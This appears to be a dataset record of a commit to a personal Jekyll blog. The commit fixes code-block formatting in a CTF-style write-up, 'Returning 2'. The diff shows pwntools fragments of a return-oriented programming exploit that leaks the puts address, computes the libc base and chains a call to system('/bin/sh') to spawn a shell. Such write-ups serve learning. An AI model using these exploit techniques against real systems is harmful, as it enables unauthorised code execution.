

Before and after one commit to HACKappatoi/HACKappatoi.github.io, a Jekyll site: the page built from _posts/returning-2/2021-04-05-Returning-2.md, in a window 1280 px wide and 1400 px high, scrolled down 2249 px. Shown: the whole window, without its empty margins (261-1018 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
returning 2 writeup

````diff
--- a/_posts/returning-2/2021-04-05-Returning-2.md
+++ b/_posts/returning-2/2021-04-05-Returning-2.md
@@ -64,7 +64,6 @@ p.sendline(payload)
 log.info(str(p.recvuntil('\n')))
 addr = u64(p.recvuntil('\n').strip().ljust(8,b'\x00'))
 log.info(str(hex(addr)))
-
 ```
 
 This script create a rop chain that call the puts and make him print his position inside the process space, finally recall the main function.
@@ -79,11 +78,12 @@ libc.address = addr - libc.symbols['puts']
 
 Importing the library in the script we can calculate tha base address af the libc inside the address space of the binary program. Now we need to craft another rop chain to call the ```system('/bin/sh')```
 
+```python
 rop = ROP(libc)
 log.info(str(hex(libc.address)))
 rop.call('puts', [next(libc.search(b'/bin/sh\x00'))])
 rop.call('system', [next(libc.search(b'/bin/sh\x00'))])
-```text
+```
 
 In this case i have not really understand why i need to call puts before the system for avoid the server to crash in a segmentation fault. Maybe for reallign the stack, but the server crash also using a ret gadget in order to realign the stack (so i dunno at the moment).
 
````
